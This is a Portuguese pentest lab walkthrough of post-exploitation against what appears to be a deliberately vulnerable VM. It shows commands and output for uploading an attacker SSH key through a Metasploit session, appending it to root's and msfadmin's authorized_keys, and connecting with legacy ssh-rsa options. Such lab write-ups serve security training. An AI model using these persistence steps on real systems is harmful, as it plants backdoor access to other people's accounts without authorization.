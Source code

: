 # 03. Ganhando acesso direto ao SSH

Após realizar a etapa de exploração de vulnerabilidade de um dos serviços presentes na nossa máquina alvo (leia <a href="02_pos_exploracao_com_metasploit.md">02. Pós-exploração com <b>METASPLOIT</b></a> para entender o fluxo de pensamento até aqui), vamos procurar uma conexão ao <i><b>console/terminal</b></i> da máquina mais estável, nos conectando diretamente ao <i><b>SSH da mesma.</b></i>

Após a gente conseguir acesso ao <i><b>console</b></i> da máquina, vamos procurar por mais usuários nos quais podemos realizar o acesso via <i><b>SSH</b></i>:

```
ls /home
ftp
msfadmin
service
user
```

<b>Aparentemente</b>, além do usuário `root`, temos os usuários `ftp`, `msfadmin`, `service` e `user`.

Antes de qualquer coisa, vamos criar uma chave ssh para usarmos somente nesse cenário (<i>por segurança, alguns dados foram editados</i>):

```
$ ssh-keygen -t rsa -b 4096 -C "local@pentest"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): local_pentest
Enter passphrase for "local_pentest" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in local_pentest
Your public key has been saved in local_pentest.pub
The key fingerprint is:
SHA256:97DsZKl2Q39fDWb1Fucxo3t9/q9c5epgRIG2zO7Sdyo local@pentest
The key's randomart image is:
+---[RSA 4096]----+
|           ..    |
|          o  .   |
|         + ..  =o|
|          +.  .oB|
|        S.o ..+ =|
|         oo* o.++|
|         +*.+. .B|
|        o=E.oo++o|
|       ..o.+.==oB|
+----[SHA256]-----+
```

Chave ssh criada com sucesso. Vamos voltar a sessão que a gente fez no <i><b>Metasploit</b></i> e vamos importar essa chave (a parte pública) para dentro da nossa máquina alvo:

```
upload .ssh/local_pentest.pub /tmp/local_pentest.pub
[*] Max line length is 65537
[*] Writing 750 bytes in 1 chunks of 2853 bytes (octal-encoded), using printf
[+] File </tmp/local_pentest.pub> upload finished
chmod 600 /tmp/local_pentest.pub
```

Vamos averiguar quais desses usuários a gente pode realmente habilitar o acesso ssh com a nossa chave:

```
ls -a /root
.
..
.Xauthority
.bash_history
.bashrc
.config
.filezilla
.fluxbox
.gconf
.gconfd
.gstreamer-0.10
.mozilla
.profile
.purple
.rhosts
.ssh
.vnc
Desktop
reset_logs.sh
vnc.log
ls /home
ftp
msfadmin
service
user
ls -a /home/ftp
.
..
ls -a /home/msfadmin
.
..
.bash_history
.distcc
.gconf
.gconfd
.mysql_history
.profile
.rhosts
.ssh
.sudo_as_admin_successful
server_dump_mysql.sql
server_dump_postgres.sql
vulnerable
ls -a /home/service
.
..
.bash_logout
.bashrc
.profile
ls -a /home/user
.
..
.bash_history
.bash_logout
.bashrc
.profile
.ssh
```

Somente os usuários `root`, `msfadmin` e `user` possuem diretórios `.ssh`, então vamos copiar nossa chave para esses usuários:

```
cp /tmp/local_pentest.pub /root/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/msfadmin/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/user/.ssh/local_pentest.pub
```

Tentamos acessar agora o SSH com algum dos usuários com o comando:

`$ ssh msfadmin@192.168.56.102`

Sem sucesso, o SSH não chega nem a retornar nada. Vamos ativar a verbosidade do SSH do cliente para tentar ver o que está acontecendo:

```
$ ssh msfadmin@192.168.56.105 -v
debug1: OpenSSH_10.0p2 Debian-8, OpenSSL 3.5.3 16 Sep 2025
debug1: Reading configuration data /home/pqpmath3ws/.ssh/config
debug1: /home/pqpmath3ws/.ssh/config line 1: Applying options for *
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Reading configuration data /etc/ssh/ssh_config.d/20-systemd-ssh-proxy.conf
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 192.168.56.105 [192.168.56.105] port 22.
debug1: Connection established.
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa type 0
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519 type 3
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_10.0p2 Debian-8
debug1: Remote protocol version 2.0, remote software version OpenSSH_4.7p1 Debian-8ubuntu1
debug1: compat_banner: match: OpenSSH_4.7p1 Debian-8ubuntu1 pat OpenSSH_2*,OpenSSH_3*,OpenSSH_4* compat 0x00000002
debug1: Authenticating to 192.168.56.105:22 as 'msfadmin'
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts: No such file or directory
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts2: No such file or directory
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: diffie-hellman-group-exchange-sha256
debug1: kex: host key algorithm: (no match)
Unable to negotiate with 192.168.56.105 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

Ah, agora conseguimos entender o problema que estamos tendo aqui: O servidor roda uma versão muito antiga do OpenSSH <i>(4.7.1p)</i> e usa dois formatos que já foram desabilitados por padrão no OpenSSH mais atual (<i><b>ssh-rsa</b></i> e <i><b>ssh-dss</b></i>). Como conseguir o acesso agora, sem mexer na máquina alvo? Simples - passemos uma configuração extra na linha de comando para permitir a conexão a esses modos mais antigos e descontinuados. Para nos conectarmos, precisaremos passar mais alguns argumentos, ficando assim o comando:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

onde,

- `-o HostKeyAlgorithms=+ssh-rsa` adiciona a opção `HostKeyAlgorithms` com o valor do padrão do ssh do server - `ssh-rsa`
- `-o PubkeyAcceptedKeyTypes=+ssh-rsa` adiciona a opção  `PubkeyAcceptedKeyTypes` com o valor do padrão ssh do server `ssh-rsa`.

Tentamos nos conectar, e mais uma vez, falhamos, só que agora o servidor pede uma senha (que a gente ainda não tem). O que vamos fazer?

Vamos procurar pela existência de um arquivo chamado <i><b>authorized_keys</b></i> nos usuários da nossa máquina alvo, pelo <i><b>Metasploit</b></i>:

```
ls -a /root/.ssh/
.
..
authorized_keys
known_hosts
local_pentest.pub
ls -a /home/msfadmin/.ssh/
.
..
authorized_keys
id_rsa
id_rsa.pub
local_pentest.pub
ls /home/user/.ssh/
id_dsa
id_dsa.pub
local_pentest.pub
```

Somente os usuários `root` e `msfadmin` possuem tal arquivo. Vamos copiar o valor da chave pública pra dentro desses arquivos agora:

```
cat /tmp/local_pentest.pub >> /root/.ssh/authorized_keys
cat /tmp/local_pentest.pub >> /home/msfadmin/.ssh/authorized_keys
```

Executamos o mesmo comando novamente:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

E <b>VOALÀ!</b> - Acesso SSH garantido ao nosso servidor alvo. Agora o céu é o limite. E vamos com tudo para nossa próxima etapa! - <a href="/steps/04_bruteforce_de_senhas_de_usuarios_com_john_the_ripper.md">04. Bruteforce de senhas de usuários com <b>JOHN THE RIPPER</b></a>